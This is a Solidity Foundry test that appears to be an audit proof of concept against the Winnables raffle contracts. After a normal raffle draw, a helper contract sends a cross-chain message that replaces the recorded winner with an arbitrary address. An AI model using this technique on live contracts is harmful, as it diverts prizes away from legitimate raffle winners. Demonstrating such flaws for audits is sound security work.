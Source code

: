 ```solidity

    function testChangeWinnerByAdmin() external {

        
        prizeManager.lockETH{value: 1 ether}(address(ticketManager), _chainSelector, 1, 1 ether);

        ticketManager.createRaffle(1, uint64(block.timestamp), uint64(block.timestamp + 1 days), 1, 2, 2);
        bytes memory signature = _signMessageByAdmin();
        ticketManager.buyTickets(1, 2, block.number, signature);

        ticketManager.drawWinner(1);
        mock.fulfillRandomWords(1, address(ticketManager));
        ticketManager.propagateRaffleWinner(address(prizeManager), _chainSelector, 1);

        (
        uint64 startsAt,
        uint64 endsAt,
        uint32 minTicketsThreshold,
        uint32 maxTicketSupply,
        uint32 maxHoldings,
        uint256 totalRaised,
        IWinnables.RaffleStatus status,
        uint256 chainlinkRequestId
        ) = ticketManager.getRaffle(1);

        arbitraryWinner.sendMessage(address(prizeManager), _chainSelector, 1, address(123));

        IWinnablesPrizeManager.RafflePrize memory raffle = prizeManager.getRaffle(1);
        assertEq(raffle.winner, address(123));


    }

    function onERC1155Received(address, address, uint256, uint256, bytes memory) public virtual returns (bytes4) {
        return this.onERC1155Received.selector;
    }
    function _signMessageByAdmin() internal returns(bytes memory){
                uint userNonces = ticketManager.getNonce(address(this));
        uint256 raffleId = 1;
        uint16 ticketCount = 2;
        uint msgValue = 0;
        (address admin, uint256 adminPk) = makeAddrAndKey("admin");

        bytes32 hash = keccak256(
            abi.encodePacked(
                address(this), userNonces, raffleId, ticketCount, block.number, msgValue
            )
        );

        bytes32 ethSignedHash = ECDSA.toEthSignedMessageHash(hash);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(adminPk, ethSignedHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        ticketManager.setRole(admin, 1, true);
        return signature;
    }
    receive() external payable {


    }


```